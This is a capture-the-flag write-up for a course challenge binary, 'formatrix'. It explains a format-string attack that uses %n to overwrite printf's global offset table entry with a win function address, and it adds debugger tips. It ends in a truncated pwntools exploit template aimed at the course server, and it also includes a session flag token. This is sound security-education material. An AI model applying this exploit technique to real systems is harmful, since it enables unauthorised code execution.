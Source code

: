 formatrix
=================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMy1mb3JtYXRyaXgiLCJpcCI6IjE0NC4xMzYuMjguMzYiLCJzZXNzaW9uIjoiODI4NGEzZDEtNThjYi00ZDllLThhYjQtM2E4OWUzNGRhM2ViIn0.Q3pzEGBz_k7zWyfGl0dwi5Mfu1gfQDC_sf27gV9xGfo}
General overview of problems faced
------------------------------------------------
Win function at 0x8048536
printf function at 0x80483b0
Locate our buffer on the stack: 3rd argument so use %3$x.
Load printf address onto the stack via buffer, then use %n to replace it with the win function address.
No padding needed
Important note:
The function address of printf IS NOT the address needed to overwrite the global offset table. To get this,
I needed to use pwngdb.
1. Disassemble main (or the relevant function)
2. examine (command: x) the printf function address
3. examine the jmp address
4. It should lead to the global offset table, so that is
the address you want.
Now, we can construct our payload similar to meme.
Binary ninja notes:
The global offset table is found near the bottom. Binary ninja has functons near the top of the symbol list and the bottom. Using addresses found in functions leads to the top of the list. This is NOT where the global offset table is. You are looking for the bottom of the list function symbols. It literally says "_GLOBAL_OFFSET_TABLE_.
Hint: Ctrl+f, Find type: text (disassembly), _GLOBAL_OFFSET_TABLE_
---------------------------------------------------
```
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './formatrix' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 13742 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
```